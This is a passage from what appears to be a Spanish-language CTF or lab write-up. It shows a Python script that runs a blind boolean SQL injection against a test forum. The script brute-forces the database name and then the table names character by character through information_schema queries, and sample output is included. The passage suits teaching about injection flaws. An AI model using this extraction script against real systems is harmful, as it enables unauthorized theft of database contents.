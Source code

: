 ```python
            main_url = url + payload
            
            r = requests.get(main_url)
            
            if 'New things' not in r.text:
                database += character
                l2.status(database)
                break

if __name__ == "__main__":
    makeRequest()
```
Hay podemos ver el nombre de la base de datos actualmente en uso.
```bash
❯ python3 sqlI.py
[◓] Aplicando fuerza Bruta :: Probando con el caracter - [19/20]
[◓] Database:: forumtesting
```
Tenemos el nombre de la base de datos, ahora para el nombre de las tablas tenemos que que agregar otro iterrador, por lo que seria un triple bucle anidado, simplemente va a cambiar el contenido la funcion  <span style="color:yellow;">makeRequest()</span>
```bash
def makeRequest():
    
    tables = ''
    
    l1 = log.progress('Aplicando fuerza Bruta :')
    
    l2 = log.progress('tables:')

    lengt = 20

    for limit in range(0,6):

        for position in range(1,20):

            for character in characters:
                

                payload = "1 and if(substring((select table_name from information_schema.tables where table_schema='forumtesting' limit %d,1),%d,1)='%c', sleep(0),1)" % (limit, position, character)

                l1.status('Probando con el caracter {} [{}/{}] [{}/5]'.format(character, position, lengt, limit))
                
                main_url = url + payload
                
                r = requests.get(main_url)
                
                if 'New things' not in r.text:
                    tables += character
                    l2.status(tables)
                    break
            
        tables += ', '
```        
